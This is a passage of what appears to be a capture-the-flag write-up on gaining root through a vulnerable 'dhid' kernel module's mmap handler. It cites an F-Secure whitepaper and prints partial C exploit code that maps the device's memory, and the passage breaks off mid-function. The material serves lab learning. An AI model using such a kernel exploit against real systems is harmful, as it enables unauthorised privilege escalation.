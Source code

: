 Now, if we do some research, you'll find that there's exploits for kernal modules, specifically this article, which uses the '**mmap**'' handler to gain root “[https://labs.f-secure.com/assets/BlogFiles/mwri-mmap-exploitation-whitepaper-2017-09-18.pdf](https://labs.f-secure.com/assets/BlogFiles/mwri-mmap-exploitation-whitepaper-2017-09-18.pdf)”.  

The exploit used in the article will work for what we want, all we've got to change is the device that was targeted. We have a good idea what device to target due to reading `auth.log.1` -- onto exploitation.

# Exploitation
The article I linked above explains everything I'm about to do very well, so i highely suggest reading that if you want to understand what I'm doing. The c code given in the POC is kinda hard to copy & paste, so it'll take some time to properly format the c code. 

After reading the article, and fixing up the c code, I had a fully working exploit for the '**dhid.ko**' module. After compiling the c code, it's as easy as just running the binary:
![images/34-5.png](/assets/smasher_2/34-5.png)  

Here's the c code:
```
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>

int main(int argc, char * const * argv)
{
  printf("[+] PID: %d\n", getpid());
  int fd = open("/dev/dhid", O_RDWR);
  if (fd < 0)
  	{
  		printf("[-] Open failed!\n");
  		return -1;
 	}
  	printf("[+] Open OK fd: %d\n", fd);

  	unsigned long size = 0xf0000000;
  	unsigned long mmapStart = 0x42424000;
  	unsigned int * addr = (unsigned int *)mmap ((void*)mmapStart, size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);
  	if (addr == MAP_FAILED)
  		{
  			perror("Failed to mmap: ");
  			close(fd);
  			return -1;
  		}

  		printf("[+]mmap OK addr: %ls\n", addr);

  		unsigned int uid = getuid();
  		printf("[+]UID: %d\n", uid);

```